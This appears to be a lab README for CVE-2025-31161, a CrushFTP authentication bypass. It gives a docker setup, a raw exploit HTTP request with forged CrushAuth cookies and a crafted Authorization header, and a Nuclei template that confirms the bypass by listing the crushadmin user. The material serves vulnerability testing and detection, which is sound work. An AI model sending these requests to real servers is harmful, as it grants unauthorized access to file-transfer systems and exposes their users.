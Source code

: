 # CVE-2025-31161: CrushFTP Authentication Bypass

## Description:
CrushFTP versions 10.0.0 through 10.8.3 and 11.0.0 through 11.3.0 are affected by a vulnerability that may result in unauthenticated access. Remote and unauthenticated HTTP requests to CrushFTP may allow attackers to gain unauthorized access.


## Reference:
- https://nvd.nist.gov/vuln/detail/CVE-2025-31161
- https://projectdiscovery.io/blog/crushftp-authentication-bypass/
- https://www.crushftp.com/crush11wiki/Wiki.jsp?page=Update


## Vulnerable Setup:

- Execute the following commands to start a CrushFTP 11.3.0 server:

```
docker compose up -d
```

- After the server is started, browse to http://localhost:8001/WebInterface/login.html to see the CrushFTP WebInterface Login Panel

## Exploitation Steps:

The authentication bypass can be triggered by sending specially crafted requests with manipulated authentication tokens.


**HTTP Request**


```
GET /WebInterface/function/?command=getUserInfo&c2f=9606 HTTP/1.1
Host: locahost:8081
User-Agent: Mozilla/5.0 (ZZ; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Connection: close
Accept-Encoding: gzip
Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/
Cookie: CrushAuth=1049161285377_jZiGxXHpBrrLsAEJmBfAaiFsImLZ9606; currentAuth=9606
Origin: http://localhost:8081
Referer: http://localhost:8081/WebInterface/login.html
X-Requested-With: XMLHttpRequest


```

![image](https://github.com/user-attachments/assets/4aed5bed-2227-4998-831b-307ad8a5e4b8)

# Steps to Write Nuclei Template


**Define Variables**

- To randomize requests and avoid detection, define variables:

```
variables:
  string_1: "{{rand_text_numeric(13)}}"
  string_2: "{{rand_text_alpha(28)}}"
  string_3: "{{rand_text_numeric(4)}}"
```

**Create HTTP Requests**

- The authentication bypass occurs by manipulating CrushAuth cookies and sending unauthorized requests. Craft raw HTTP requests:

```
http:
  - raw:
      - |
        GET /WebInterface/function/?command=getUserList&serverGroup=MainUsers&c2f={{string_3}} HTTP/1.1
        Host: {{Hostname}}
        Cookie: CrushAuth={{string_1}}_{{string_2}}{{string_3}}; currentAuth={{string_3}}
        Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/
        Origin: {{RootURL}}
        Referer: {{RootURL}}/WebInterface/login.html
        X-Requested-With: XMLHttpRequest
        Accept-Encoding: gzip


```

**Matchers Definition**

- To confirm successful exploitation, the response must meet the following conditions:

  - Status Code : The server should return HTTP 200 (OK), indicating a successful request.

  - Response Body : The response should contain the username "crushadmin" inside the <user_list_subitem> tag, confirming user enumeration.

  - Content-Type : The response should be in XML format (text/xml).

```
    stop-at-first-match: true
    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - "<user_list_subitem>crushadmin</user_list_subitem>"

      - type: word
        part: content_type
        words:
          - "text/xml"

      - type: status
        status:
          - 200
```

## Nuclei Template URL : [CVE-2025-31161](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2025/CVE-2025-31161.yaml)

## Nuclei Command :

```bash
nuclei -t CVE-2025-31161.yaml -u http://localhost:8001 -vv
```

![image](https://github.com/user-attachments/assets/6aa6ccaf-cf9d-4d2e-b058-04559a0edd04)
